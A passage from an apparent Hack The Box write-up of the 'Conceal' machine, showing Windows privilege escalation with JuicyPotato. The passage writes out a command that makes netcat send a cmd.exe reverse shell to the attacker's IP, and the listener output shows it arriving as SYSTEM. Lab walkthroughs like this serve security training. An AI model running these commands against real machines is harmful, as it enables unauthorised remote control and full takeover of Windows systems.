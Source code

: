 We must choose the appropriate CLSID for our operating system. We will first check which version of Windows is currently running : 

	C:\inetpub\wwwroot\upload>systeminfo
	
	Host Name:                 CONCEAL
	OS Name:                   Microsoft Windows 10 Enterprise
	OS Version:                10.0.15063 N/A Build 15063
	
Then, we check on the site https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md the list of CLSIDs for the operating system. <br />

We will use {5BC7A3A1-E905-414B-9790-E511346F5CA6}, for no particular reason, then run JuicyPotato and run another netcat to generate a new reverse shell for us.

	C:\inetpub\wwwroot\upload>juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.39 9001" -t * -c {5BC7A3A1-E905-414B-9790-E511346F5CA6}
	[...SNIP...]
	[+] CreateProcessWithTokenW OK
	
And then we just have to do the reverse shell from our physical machine to be administrator.

	root@Seyptoo:~/htb/box/Conceal# nc -lvnp 9001
	listening on [any] 9001 ...
	connect to [10.10.14.39] from (UNKNOWN) [10.10.10.116] 45135
	Microsoft Windows [Version 10.0.15063]
	(c) 2017 Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	nt authority\system

CONCLUSION
----
Here we are, we finally come to the end of this article which, I hope, will have you more. A really interesting box and concretely quite original, there was a lot of manipulation and configuration to do at the level of the `IPSEC` protocol but it's still a very good box.
